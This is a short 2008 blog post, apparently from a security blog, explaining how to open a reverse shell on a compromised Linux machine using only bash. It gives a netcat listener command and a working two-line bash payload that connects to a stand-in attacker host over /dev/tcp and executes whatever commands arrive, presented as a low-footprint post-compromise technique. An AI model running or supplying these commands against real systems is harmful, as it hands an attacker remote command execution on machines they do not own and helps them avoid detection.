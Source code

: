 ```yaml
---
title: Reverse Shell with Bash
author: petko-d-petkov
date: Sat, 19 Apr 2008 11:03:39 GMT
template: post.jade
---
```


I am stuck at the Dubai International Airport and I have nothing else interesting to do. So, I though I might share a simple technique which will go into the [Agile Hacking](/blog/agile-hacking/) project. Here I will show you how to create a reverse command shell without using any 3rd-party tools such as the all mighty netcat.

When we compromise a machine we often need to provide ourselves with a user friendly access to the system. This is where command shells come into place. The typical shell consists of a generic network client, typically netcat, listening on a remote port which pipes output into something like bash or any other command shell. Another type of shell is the reverse shell which consists of a generic network client, again something like netcat, connecting to the attacker's machine and piping input to bash. Most of the time, the attacker will use netcat, because this tool can be easily found on most system or easily compiled from source if required.

Although netcat is very useful, and you may have to use it in most cases, here is a simple technique which emulates what netcat does but it relies on bash only. Let's see how.

In step one we start a listening service on our box. We can use netcat, or whatever you might have at hand.

	$ nc -l -p 8080 -vvv

On the target we have to perform some bash-fu. We will create a new descriptor which is assigned to a network node. Then we will read and write to that descriptor.

	$ exec 5<>/dev/tcp/evil.com/8080
	$ cat <&5 | while read line; do $line 2>&5 >&5; done

There you go. Now everything we type in our local listening server will get executed on the target and the output of the commands will be piped back. Keep in mind that we don't use any 3rd-party tools on the target but its default shell. This technique comes handy in many situations and it leaves very small footprint on the targeted system.
